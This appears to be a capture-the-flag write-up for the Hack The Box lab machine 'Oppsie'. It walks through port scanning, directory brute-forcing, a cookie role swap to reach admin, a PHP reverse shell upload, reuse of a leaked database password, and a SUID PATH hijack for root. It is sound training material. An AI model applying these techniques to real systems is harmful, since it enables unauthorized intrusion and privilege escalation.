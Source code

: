 # HACKTHEBOX - Oppsie

## Enumeration:
```bash
alias rustscan='sudo docker run -it --rm --name rustscan rustscan/rustscan'
rustscan -a $IP --greppable # [22,80]

sudo nmap -v -sV -sC -p 22,80 -o nmap.txt $IP # sudo for SYN Stealth Scan
```

**nmap results**:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Working with port 80:

Main page is a boring web template, nothing much to inspect. Let's brute-forcing web directory:
```bash
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://$IP/
# /server-status --> 403 Forbidden
# /uploads --> 403 Forbidden
```

**Boring exploit to gain admin access**:

Duh!! try using crawler from Burp-Suite to build Site-Map(listening all traffic to build a map), found: `/cdn-cgi/login/`

Login as guest --> uploads --> This action require super admin 

Login as guest --> account --> ?content=accounts&id=2 = [2233]guest--> ?content=accounts&id=1 --> [34322]admin

Check cookies --> user=2233 && role=guest--> user=34322 && role=admin --> *ADMIN HERE!!*

Upload php-reverse-shell.php --> trigger by `/uploads/php-reverse-shell.php` --> *reverse shell here!!*

Oldy upgrade normal shell to interactive shell!!
```bash
which python3 # yes
python3 -c "import pty; pty.spawn('/bin/bash')"
# Ctrl + z
stty -raw echo; fg
export TERM=xterm-256color
stty rows 40 columns 173
export SHELL=bash
```

From `/var/www/html/cdn-cgi/login/db.php`:
```php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
Sweet, let's switch to `robert` account, `www-data` is lowest and boring privileges to messing around!!
```bash
su robert
# Password: M3g4C0rpUs3r!
```
From `/home/robert/user.txt`:

**user flag**: `HTB{f2c74ee8db7983851ab2a96a44eXXXXX}` 

**Find executable file bugtracker group**: `find / -group bugtracker -type f 2>/dev/null` --> `/usr/bin/bugtracker`

This also can be done by finding SUID file: `-perm u=s`

`/usr/bin/bugtracker` is SUID(set owner user id) by root(executed under privileges of root)
```bash
/usr/bin/bugtracker
# Enter bug ID: 1000 --> error --> cat: /root/reports/10000 --> the executable being called in an insecure manner(not being called full path)

# Ok, let's manipulate $PATH variable to gain root access!
cd /tmp
cat "/bin/bash" > cat # spawn bash shell in root privileges!
export PATH=/tmp:$PATH
/usr/bin/bugtracker # Enter bug ID: 0
whoami # root
```

From `/root/root.txt`:

**root flag**: `HTB{af13b0bee69f8a877c3faf667f7XXXXX}`
